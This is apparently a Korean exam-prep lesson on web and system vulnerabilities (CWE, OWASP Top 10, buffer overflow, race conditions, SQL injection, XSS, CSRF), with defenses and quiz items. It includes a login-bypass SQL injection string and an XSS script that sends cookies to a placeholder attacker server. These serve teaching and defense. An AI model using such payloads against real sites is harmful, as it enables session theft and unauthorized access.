

<Callout type="info">
  **이번 문서의 목표:** 이 파일을 다 읽으면 취약점을 CWE·OWASP 기준으로 분류할 수 있고, SQL 인젝션·XSS·CSRF 각각의 공격 원리와 방어 원칙을 한 쌍으로 설명할 수 있으며, 세 취약점을 서로 혼동하지 않고 구분할 수 있다.
</Callout>

<Callout type="warning">
  이 편은 정보보호 시험의 출제기준(취약점의 개념·분류·방어 원칙)에 맞춰 **개념 수준**으로만 다룹니다. 실제 침투·우회에 사용 가능한 상세 익스플로잇 코드나 공격 절차는 다루지 않으며, 예시 코드는 원리를 이해하기 위한 최소한의 형태로만 제시합니다.
</Callout>

## 왜 취약점을 "분류 체계"로 먼저 봐야 하는가

09편에서 애플리케이션·웹·DB가 데이터를 주고받는 구조와 신뢰 경계를 정리했습니다. 이 편은 그 신뢰 경계에서 검증이 실패했을 때 실제로 어떤 **취약점**(Vulnerability)이 발생하는지를 체계적으로 봅니다.

취약점이라는 말 자체는 02편에서 "위협이 이용할 수 있는 시스템의 약점"으로 정의했습니다. 이 편에서는 그 약점들을 국제적으로 통용되는 두 분류 체계, **CWE**와 **OWASP Top 10** 기준으로 정리한 뒤, 시험에 가장 자주 나오는 세 가지 웹 취약점(SQL 인젝션·XSS·CSRF)을 공격 원리와 방어 원칙을 짝지어 설명합니다.

> **쉽게 말하면:** 취약점은 "문의 잠금장치가 허술한 지점"입니다. CWE는 그 허술한 지점들을 유형별로 정리해 놓은 사전이고, OWASP Top 10은 그중 웹사이트에서 실제로 가장 자주 뚫리는 상위 10개 유형을 뽑아 놓은 목록입니다.

## 1. 취약점의 정의와 분류 체계

**CWE**(Common Weakness Enumeration, 공통 취약점 유형 목록)는 미국의 비영리기관이 관리하는 소프트웨어·하드웨어 약점의 표준 분류 체계입니다. "SQL 인젝션", "버퍼 오버플로우" 같은 각 취약점 유형마다 고유 번호(CWE-ID)를 부여해, 서로 다른 도구·보고서가 같은 취약점을 같은 이름으로 부를 수 있게 합니다.

**OWASP**(Open Worldwide Application Security Project, 오픈 월드와이드 애플리케이션 보안 프로젝트)는 웹 애플리케이션 보안에 특화된 국제 커뮤니티이며, 이 단체가 정기적으로 발표하는 **OWASP Top 10**은 웹 애플리케이션에서 실제 발생 빈도·심각도가 높은 취약점 상위 10개를 순위로 정리한 자료입니다.

| 구분 | CWE | OWASP Top 10 |
|------|-----|----------------|
| 성격 | 소프트웨어 약점 전반의 사전식 분류 체계(수백–수천 개 항목) | 웹 애플리케이션에 특화된 실무 위험 순위(10개 항목) |
| 갱신 방식 | 지속적으로 항목이 추가·세분화됨 | 대개 3–4년 주기로 순위·항목이 개정됨 |
| 시험에서의 활용 | "이 취약점의 CWE 분류상 상위 범주는?" 유형 | "OWASP Top 10에서 다루는 대표 웹 취약점은?" 유형 |

<Callout type="warning">
  **자주 틀리는 점:** CWE와 OWASP Top 10을 같은 것으로 착각하기 쉽지만, CWE는 **모든 소프트웨어 약점**을 포괄하는 사전식 목록이고 OWASP Top 10은 그중 **웹 애플리케이션에 국한된 상위 10개**만 추린 순위표입니다. 즉 OWASP Top 10에 포함된 취약점은 대부분 CWE 안에도 대응하는 항목이 있지만, CWE의 모든 항목이 OWASP Top 10에 속하지는 않습니다.
</Callout>

## 2. 시스템 취약점 개관 — 버퍼 오버플로우와 Race Condition

웹 취약점으로 넘어가기 전에, 운영체제·프로그램 자체의 메모리·실행 구조에서 발생하는 시스템 취약점 두 가지를 개관합니다.

**버퍼 오버플로우**(Buffer Overflow)는 프로그램이 미리 확보해 둔 메모리 공간(버퍼)의 크기보다 더 큰 데이터를 그 공간에 써넣을 때, 넘친 데이터가 인접한 메모리 영역을 덮어써 버리는 취약점입니다. C 언어처럼 배열의 경계를 프로그래머가 직접 검사해야 하는 언어에서 흔히 발생하며, 덮어써진 영역이 프로그램의 실행 흐름을 제어하는 값(예: 함수가 끝난 뒤 돌아갈 주소)이라면 공격자가 임의 코드를 실행시키는 데까지 악용될 수 있습니다.

> **비유:** 컵(버퍼)에 담을 수 있는 물의 양이 정해져 있는데, 그 이상 붓기 시작하면 물이 컵 밖으로 흘러넘쳐 옆에 놓인 다른 물건(인접 메모리)을 적셔버리는 것과 같습니다.

**경쟁 조건**(Race Condition)은 여러 프로세스나 스레드가 같은 자원(파일, 변수 등)에 동시에 접근할 때, 접근 순서에 따라 결과가 달라지는 상황을 이용하는 취약점입니다. 예를 들어 프로그램이 "파일의 권한을 확인하는 시점"과 "그 파일을 실제로 여는 시점" 사이에 아주 짧은 시간차가 있다면, 그 틈을 노려 파일을 다른 것으로 바꿔치기하는 공격(TOCTOU, Time-Of-Check to Time-Of-Use)이 가능해집니다.

| 취약점 | 발생 원인 | 방어 원칙 |
|--------|-----------|-----------|
| 버퍼 오버플로우 | 입력 길이를 검사하지 않고 고정 크기 버퍼에 복사 | 안전한 문자열 함수 사용, 입력 길이 검사, 스택 보호 기법 적용 |
| 경쟁 조건 | 검사와 사용 사이의 시간차(TOCTOU)를 이용한 자원 상태 변경 | 검사와 사용을 하나의 원자적(Atomic, 더 이상 쪼갤 수 없는 단위) 연산으로 묶기, 잠금(Lock) 메커니즘 사용 |

## 3. SQL 인젝션 — 원리와 방어

**SQL 인젝션**(SQL Injection)은 09편에서 개관했듯, 애플리케이션이 사용자 입력을 검증 없이 SQL 쿼리 문자열에 그대로 결합할 때 발생합니다. 공격자는 입력값 안에 SQL 구문 조각을 섞어 넣어, 원래 개발자가 의도한 쿼리의 의미 자체를 바꿔 버립니다.

> **쉽게 말하면:** 원래는 "이 사람의 데이터만 보여줘"라고 묻는 질문이었는데, 입력값을 조작해서 "무조건 전부 보여줘"로 질문 자체를 바꿔치기하는 것입니다.

```
개발자가 의도한 쿼리:
  SELECT * FROM members WHERE id = '입력값' AND pw = '입력값'

공격자가 id란에 입력한 값:
  ' OR '1'='1

결합된 실제 쿼리:
  SELECT * FROM members WHERE id = '' OR '1'='1' AND pw = ''
```

`'1'='1'`은 항상 참(True)인 조건이므로, 이 조건이 OR로 연결되면 비밀번호 검사와 무관하게 조건 전체가 참이 되어 로그인이 우회됩니다. 이것이 SQL 인젝션 중 가장 널리 알려진 "인증 우회" 패턴입니다.

### 방어 원칙

| 방어 기법 | 원리 |
|-----------|------|
| 준비된 문장(Prepared Statement) | 쿼리의 뼈대(구조)와 입력값을 분리해서 DB에 전달한다. 입력값은 아무리 SQL처럼 생긴 문자열이라도 **데이터로만** 취급되어 쿼리 구조를 바꿀 수 없다 |
| 저장 프로시저(Stored Procedure) | DB 안에 미리 정의된 절차를 호출하는 방식으로, 입력값이 쿼리 구문에 직접 끼어들 여지를 줄인다(단, 내부 구현이 문자열 결합이면 여전히 취약할 수 있다) |
| 입력 검증 | 09편에서 다룬 화이트리스트 방식으로 허용된 문자·패턴만 통과시킨다 |
| 최소 권한 DB 계정 | 09편에서 다룬 원칙대로, 인젝션이 뚫려도 피해 범위를 그 계정의 권한 안으로 제한한다 |

<Callout type="warning">
  **자주 틀리는 점:** "특수문자(작은따옴표 등)를 이스케이프 처리하면 SQL 인젝션이 완전히 방어된다"는 설명은 불완전합니다. 이스케이프 처리는 보조 수단일 뿐이며, DB·드라이버마다 이스케이프 규칙이 다르고 우회 사례도 존재하기 때문에, 근본적인 방어책은 **준비된 문장으로 쿼리 구조와 데이터를 애초에 분리하는 것**입니다. 시험에서는 "가장 근본적인 방어책"을 묻는 문제에 준비된 문장(또는 매개변수화된 쿼리)이 정답으로 나오는 경우가 많습니다.
</Callout>

## 4. XSS — 원리와 방어

**XSS**(Cross-Site Scripting, 크로스 사이트 스크립팅)는 공격자가 조작한 스크립트(주로 자바스크립트)가 다른 사용자의 브라우저에서 그대로 실행되게 만드는 취약점입니다. SQL 인젝션이 "서버의 DB"를 노린다면, XSS는 **다른 사용자의 브라우저**를 노린다는 점이 결정적 차이입니다.

> **쉽게 말하면:** 게시판 글쓰기 칸에 악성 스크립트를 심어 놓으면, 그 글을 읽는 다른 사람의 브라우저가 그 스크립트를 실행해버리는 것입니다.

```
게시글 입력값(악의적):
  <script>document.location='https://공격자서버?c='+document.cookie</script>

게시글이 검증 없이 그대로 페이지에 출력되면,
이 글을 읽는 다른 사용자의 브라우저가 위 스크립트를 실행해
그 사용자의 쿠키(09편에서 다룬 세션ID 포함)를 공격자에게 전송한다.
```

이렇게 유출된 세션ID는 09편에서 다룬 **세션 하이재킹**에 그대로 악용될 수 있습니다.

| XSS 유형 | 스크립트가 저장되는 위치 | 특징 |
|-----------|----------------------------|------|
| 저장형(Stored) | 서버(게시판 글, 댓글 등)에 영구 저장 | 그 게시물을 읽는 모든 사용자가 피해를 입어 파급력이 크다 |
| 반사형(Reflected) | 서버에 저장되지 않고, 조작된 URL의 파라미터 값이 응답 페이지에 그대로 반영 | 피해자가 공격자가 만든 악성 링크를 직접 클릭해야 발생 |
| DOM 기반(DOM-based) | 서버를 거치지 않고 브라우저 내부의 자바스크립트가 DOM(Document Object Model)을 조작하는 과정에서 발생 | 서버 로그에는 흔적이 남지 않을 수 있어 탐지가 더 어렵다 |

### 방어 원칙

| 방어 기법 | 원리 |
|-----------|------|
| 출력 인코딩(Output Encoding) | 사용자 입력을 화면에 출력할 때 `<`, `>` 등의 특수문자를 HTML 엔티티(`&lt;`, `&gt;`)로 변환해, 브라우저가 스크립트가 아닌 순수 텍스트로 해석하게 만든다 |
| 입력 검증 | SQL 인젝션과 마찬가지로 허용된 형식·태그만 통과시킨다 |
| 쿠키 속성 설정 | 세션ID 쿠키에 `HttpOnly` 속성을 설정하면, 자바스크립트 코드에서 그 쿠키 값을 읽을 수 없게 되어 XSS로 스크립트가 실행되어도 쿠키 탈취는 막을 수 있다 |
| CSP(Content Security Policy) | 브라우저가 어떤 출처의 스크립트만 실행할지 서버가 미리 지정해, 허용되지 않은 위치에서 삽입된 스크립트의 실행을 브라우저 차원에서 차단한다 |

<Callout type="warning">
  **자주 틀리는 점:** SQL 인젝션의 방어책(준비된 문장)과 XSS의 방어책(출력 인코딩)을 서로 뒤바꿔 고르는 오답이 많습니다. SQL 인젝션은 **DB로 전달되는 값**을 다루는 문제이므로 쿼리 구조와 데이터의 분리가 핵심이고, XSS는 **브라우저에 출력되는 값**을 다루는 문제이므로 출력 시점의 인코딩이 핵심입니다. "어디로 전달되는 값인가"를 먼저 확인하면 방어책을 헷갈리지 않습니다.
</Callout>

## 5. CSRF — 원리와 방어

**CSRF**(Cross-Site Request Forgery, 사이트 간 요청 위조)는 사용자가 이미 로그인해 정상 세션을 유지하고 있는 상태를 악용해, 사용자가 의도하지 않은 요청을 공격자가 대신 만들어 서버에 전송시키는 취약점입니다. XSS가 "스크립트를 실행시키는" 공격이라면, CSRF는 스크립트 실행 없이도 **정상적인 요청 형식 자체를 위조**해 사용자 몰래 서버에 보내는 공격이라는 점이 다릅니다.

> **쉽게 말하면:** 사용자가 은행 사이트에 로그인해 둔 상태에서, 공격자가 만든 다른 사이트를 열어보기만 해도 "계좌 이체" 요청이 사용자 몰래 은행 서버로 자동 전송되는 것입니다. 서버 입장에서는 그 요청이 진짜 사용자가 보낸 것인지, 사용자 몰래 조작되어 보내진 것인지 구분할 단서가 원래는 없습니다.



이 흐름에서 핵심은 브라우저가 같은 사이트로 요청을 보낼 때 **쿠키를 자동으로 함께 실어 보낸다**는 특성입니다. 서버는 요청에 담긴 세션ID만 보고 "로그인된 사용자의 정상 요청"이라고 오인하며, 그 요청이 사용자가 직접 누른 것인지 다른 사이트가 몰래 만들어 보낸 것인지는 구분하지 못합니다.

### 방어 원칙

| 방어 기법 | 원리 |
|-----------|------|
| CSRF 토큰 | 서버가 폼을 내려줄 때마다 예측 불가능한 임의의 토큰 값을 함께 발급하고, 요청을 받을 때 그 토큰이 정확히 일치하는지 검사한다. 공격자는 이 토큰 값을 알 수 없으므로 위조 요청을 만들 수 없다 |
| SameSite 쿠키 속성 | 쿠키에 `SameSite` 속성을 지정하면, 다른 사이트(Cross-Site)에서 발생한 요청에는 브라우저가 쿠키를 자동으로 실어 보내지 않게 되어 공격의 전제 조건 자체가 성립하지 않는다 |
| Referer·Origin 헤더 검증 | 요청이 실제로 우리 사이트 내부에서 발생했는지, HTTP 요청 헤더의 출처 정보를 검사해 보조적으로 확인한다 |

<Callout type="warning">
  **자주 틀리는 점:** "CSRF는 XSS의 하위 유형이다"라고 착각하는 경우가 있는데, 둘은 서로 다른 독립적인 취약점입니다. XSS는 스크립트를 **실행**시키는 것이 핵심이고, CSRF는 스크립트 실행 없이도 브라우저의 자동 쿠키 전송 특성만 이용해 **요청을 위조**하는 것이 핵심입니다. 다만 XSS에 성공하면 그 스크립트로 CSRF 토큰을 탈취할 수 있어 CSRF 방어(토큰 검증)를 무력화시킬 수 있으므로, 실무에서는 두 취약점을 함께 방어해야 한다는 연결 관계만 알아 두면 됩니다.
</Callout>

## 6. 세 취약점 한눈에 비교

| 구분 | SQL 인젝션 | XSS | CSRF |
|------|-------------|-----|------|
| 공격 대상 | 서버의 데이터베이스 | 다른 사용자의 브라우저 | 서버(사용자의 정상 세션을 이용) |
| 핵심 원리 | 입력값이 SQL 구문의 일부로 해석됨 | 입력값이 스크립트로 해석되어 브라우저에서 실행됨 | 브라우저의 쿠키 자동 전송 특성을 악용해 요청을 위조 |
| 스크립트 실행 필요 여부 | 필요 없음(쿼리 구조 변경) | 필요함(스크립트 실행이 핵심) | 필요 없음(정상 요청 형식을 그대로 위조) |
| 대표 방어책 | 준비된 문장(Prepared Statement) | 출력 인코딩, `HttpOnly` 쿠키 | CSRF 토큰, `SameSite` 쿠키 |

## 핵심 정리

- **CWE**는 소프트웨어 약점 전반의 사전식 분류 체계, **OWASP Top 10**은 웹에 특화된 상위 10개 위험 순위로, 서로 범위가 다르다.
- **버퍼 오버플로우**는 메모리 경계 검사 부재, **경쟁 조건**은 검사와 사용 사이의 시간차(TOCTOU)를 이용하는 시스템 취약점이다.
- **SQL 인젝션**은 입력값이 SQL 쿼리 구문으로 해석되는 문제이며, 근본 방어책은 **준비된 문장**으로 쿼리 구조와 데이터를 분리하는 것이다.
- **XSS**는 입력값이 브라우저에서 스크립트로 실행되는 문제이며, 저장형·반사형·DOM 기반으로 나뉘고 방어는 **출력 인코딩**과 `HttpOnly` 쿠키가 핵심이다.
- **CSRF**는 스크립트 실행 없이 브라우저의 쿠키 자동 전송을 악용해 요청을 위조하는 문제이며, 방어는 **CSRF 토큰**과 `SameSite` 쿠키가 핵심이다.
- 세 취약점은 공격 대상(DB·브라우저·서버)과 스크립트 실행 필요 여부로 명확히 구분되며, 방어책을 서로 뒤바꿔 고르지 않도록 주의한다.

## 마무리 복습

<Quiz
  questionNumber={1}
  question="CWE와 OWASP Top 10의 관계에 대한 설명으로 옳은 것은?"
  options={['CWE는 웹 애플리케이션에만 국한된 상위 10개 취약점 순위표다', 'OWASP Top 10은 모든 소프트웨어 약점을 포괄하는 사전식 분류 체계다', 'CWE는 소프트웨어 약점 전반의 사전식 분류이고, OWASP Top 10은 그중 웹에 특화된 상위 10개 위험 순위다', 'CWE와 OWASP Top 10은 완전히 동일한 항목을 다루는 같은 문서다']}
  correctAnswer={3}
  explanation="CWE는 소프트웨어·하드웨어 약점 전반을 포괄하는 사전식 분류 체계이며, OWASP Top 10은 그중 웹 애플리케이션에서 발생 빈도·심각도가 높은 상위 10개 항목만 추린 실무 위험 순위다."
  optionExplanations={['CWE는 웹에 국한되지 않고 소프트웨어 약점 전반을 다룬다', 'OWASP Top 10은 웹에 특화되어 있으며 모든 소프트웨어 약점을 포괄하지 않는다', '정답 — CWE는 사전식 분류, OWASP Top 10은 웹 특화 상위 10개 순위다', '두 문서는 범위와 목적이 다른 별개의 자료다']}
/>

<Quiz
  questionNumber={2}
  question="경쟁 조건(Race Condition) 취약점에 대한 설명으로 가장 적절한 것은?"
  options={['버퍼 크기보다 큰 데이터를 입력해 인접 메모리를 덮어쓰는 취약점이다', '검사(Check)와 사용(Use) 사이의 시간차를 이용해 자원의 상태를 몰래 바꾸는 취약점이다', 'SQL 쿼리 구문에 악성 문자열을 삽입하는 취약점이다', '브라우저의 쿠키 자동 전송 특성을 악용하는 취약점이다']}
  correctAnswer={2}
  explanation="경쟁 조건(Race Condition)은 여러 프로세스·스레드가 같은 자원에 접근할 때 발생하는 시간차(TOCTOU)를 이용해, 검사 시점과 실제 사용 시점 사이에 자원 상태를 바꿔치기하는 취약점이다."
  optionExplanations={['버퍼 크기 관련 설명은 버퍼 오버플로우에 해당한다', '정답 — 검사와 사용 사이의 시간차를 이용하는 것이 경쟁 조건의 핵심 원리다', 'SQL 쿼리 삽입은 SQL 인젝션에 대한 설명이다', '쿠키 자동 전송 악용은 CSRF에 대한 설명이다']}
/>

<Quiz
  questionNumber={3}
  question="SQL 인젝션의 가장 근본적인 방어책으로 가장 적절한 것은?"
  options={['모든 특수문자를 이스케이프 처리하는 것만으로 완전히 방어된다', '쿼리의 구조와 입력값을 분리하는 준비된 문장(Prepared Statement)을 사용한다', '쿠키에 HttpOnly 속성을 설정한다', 'CSRF 토큰을 요청마다 검증한다']}
  correctAnswer={2}
  explanation="준비된 문장(Prepared Statement)은 쿼리의 구조(뼈대)와 입력값(데이터)을 분리해 DB에 전달하므로, 입력값이 아무리 SQL 구문처럼 생겨도 데이터로만 처리되어 쿼리 구조를 바꿀 수 없다. 이스케이프 처리는 보조 수단일 뿐 근본적인 방어책이 아니다."
  optionExplanations={['이스케이프 처리는 DB·드라이버마다 규칙이 달라 우회 사례가 있는 보조 수단이다', '정답 — 쿼리 구조와 데이터를 분리하는 준비된 문장이 근본적인 SQL 인젝션 방어책이다', 'HttpOnly 쿠키는 XSS로 인한 쿠키 탈취를 막는 기법으로 SQL 인젝션과 무관하다', 'CSRF 토큰 검증은 CSRF 방어책으로 SQL 인젝션과 무관하다']}
/>

<Quiz
  questionNumber={4}
  question="XSS(Cross-Site Scripting) 유형 중, 악성 스크립트가 게시글 형태로 서버에 영구 저장되어 그 글을 읽는 모든 사용자에게 파급되는 유형은?"
  options={['반사형(Reflected) XSS', '저장형(Stored) XSS', 'DOM 기반(DOM-based) XSS', 'CSRF']}
  correctAnswer={2}
  explanation="저장형(Stored) XSS는 악성 스크립트가 게시판 글·댓글처럼 서버에 영구 저장되어, 그 게시물을 열람하는 모든 사용자의 브라우저에서 실행되므로 파급력이 크다."
  optionExplanations={['반사형은 서버에 저장되지 않고 조작된 URL을 클릭한 사용자에게만 발생한다', '정답 — 서버에 영구 저장되어 다수에게 파급되는 것은 저장형 XSS의 특징이다', 'DOM 기반은 서버를 거치지 않고 브라우저 내부에서 발생하는 유형이다', 'CSRF는 XSS와 다른 별개의 취약점으로 스크립트 저장과 무관하다']}
/>

<Quiz
  questionNumber={5}
  question="CSRF(Cross-Site Request Forgery)의 공격 원리에 대한 설명으로 옳은 것은?"
  options={['공격자의 스크립트가 피해자의 브라우저에서 실행되어야만 성립하는 공격이다', '피해자가 이미 로그인해 유지 중인 세션을 이용해, 스크립트 실행 없이도 위조된 요청을 서버로 전송시키는 공격이다', 'SQL 쿼리 구문 자체를 변경해 데이터베이스를 직접 조작하는 공격이다', '버퍼 크기를 초과하는 데이터를 입력해 메모리를 덮어쓰는 공격이다']}
  correctAnswer={2}
  explanation="CSRF는 브라우저가 같은 사이트로 요청을 보낼 때 쿠키를 자동으로 함께 전송하는 특성을 악용해, 스크립트 실행 없이도 피해자의 로그인 세션을 이용한 위조 요청을 서버에 전송시키는 공격이다."
  optionExplanations={['스크립트 실행이 핵심인 것은 XSS이며, CSRF는 스크립트 실행 없이도 성립한다', '정답 — 스크립트 실행 없이 정상 세션을 이용해 요청을 위조하는 것이 CSRF의 핵심 원리다', 'SQL 쿼리 변경은 SQL 인젝션에 대한 설명이다', '버퍼 관련 설명은 버퍼 오버플로우에 대한 설명이다']}
/>

<Quiz
  questionNumber={6}
  question="쿠키의 SameSite 속성이 CSRF 방어에 효과적인 이유로 가장 적절한 것은?"
  options={['쿠키 값을 암호화해 공격자가 값을 읽을 수 없게 만들기 때문이다', '다른 사이트(Cross-Site)에서 발생한 요청에는 브라우저가 쿠키를 자동으로 실어 보내지 않게 되어 공격의 전제 조건이 성립하지 않기 때문이다', '자바스크립트 코드가 쿠키 값을 읽지 못하게 막기 때문이다', 'SQL 쿼리 구조와 데이터를 분리해 전달하기 때문이다']}
  correctAnswer={2}
  explanation="SameSite 속성은 다른 사이트에서 발생한 요청에 쿠키가 자동으로 실리지 않도록 브라우저 동작 자체를 제한하므로, CSRF 공격이 성립하기 위한 '쿠키 자동 전송'이라는 전제 조건 자체가 사라진다."
  optionExplanations={['쿠키 값 암호화는 SameSite 속성의 역할이 아니다', '정답 — 다른 사이트발 요청에 쿠키가 자동 전송되지 않게 하는 것이 SameSite의 CSRF 방어 원리다', '자바스크립트에서 쿠키를 읽지 못하게 하는 것은 HttpOnly 속성의 역할이다', '쿼리 구조와 데이터 분리는 준비된 문장(SQL 인젝션 방어)의 원리다']}
/>

<Quiz
  questionNumber={7}
  question="SQL 인젝션, XSS, CSRF를 비교한 설명으로 옳지 않은 것은?"
  options={['SQL 인젝션의 주 공격 대상은 서버의 데이터베이스다', 'XSS는 다른 사용자의 브라우저에서 스크립트가 실행되는 것이 핵심이다', 'CSRF는 스크립트 실행 없이도 성립할 수 있는 공격이다', 'CSRF는 XSS의 하위 유형이므로 별도의 방어책이 필요하지 않다']}
  correctAnswer={4}
  explanation="CSRF는 XSS와 서로 다른 독립적인 취약점이며, 각각 CSRF 토큰·SameSite 쿠키(CSRF)와 출력 인코딩·HttpOnly 쿠키(XSS)라는 별도의 방어책이 필요하다."
  optionExplanations={['SQL 인젝션의 공격 대상에 대한 옳은 설명이다', 'XSS의 핵심 원리에 대한 옳은 설명이다', 'CSRF는 스크립트 실행 없이 요청 위조만으로 성립하므로 옳은 설명이다', '정답 — CSRF는 XSS의 하위 유형이 아니라 독립적인 취약점이며 별도의 방어책이 필요하다']}
/>

## 참고 자료

- [OWASP - Top 10 웹 애플리케이션 보안 위험](https://owasp.org)
- [한국인터넷진흥원(KISA) - 웹 취약점 및 보안위협 개요 자료](https://kisa.or.kr)
